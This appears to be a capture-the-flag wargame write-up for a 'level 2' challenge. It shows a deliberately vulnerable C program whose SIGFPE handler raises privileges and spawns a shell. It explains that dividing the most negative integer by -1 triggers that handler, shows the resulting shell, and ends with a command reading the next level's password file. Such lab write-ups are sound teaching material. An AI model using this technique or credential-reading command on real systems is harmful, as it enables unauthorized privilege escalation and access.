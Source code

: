# level 2

<pre class="language-c"><code class="lang-c"><strong>#include &#x3C;stdio.h>
</strong>#include &#x3C;stdlib.h>
#include &#x3C;signal.h>
#include &#x3C;unistd.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
    printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
</code></pre>

The `catcher()` function is what we want to call.

The `main()` function returns the division of the second and third argument, first being the program name itself.

The program makes `signal` syscall which sets a handler function for a signal. This handle function gets called when the signal is received.

```c
sighandler_t signal(int signum, sighandler_t _handler);
```

In our case the signal is `SIGFPE` and the handler function is `catcher()`.

If we look at the man-page, it tells us when a `SIGFPE` signal is generated.

```
Integer division by zero has undefined result.  On some architectures it will generate a SIGFPE signal.  
(Also dividing the most negative integer by -1 may generate **SIGFPE**.)
```

So `SIGFPE` is generated during divisions, and there is a division occurring in our program.

We cannot perform division by zero because our `argv[2]` is the divisor and the program doesn't allow for it to be zero.

However, `argv[2]` can be -1. Which means we just have to figure out what the most negative integer is and pass it as `argv[1]`

```
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$
```

We can cat the password for the next level now.

```
sh-4.3$ cat /home/level3/.pass
```
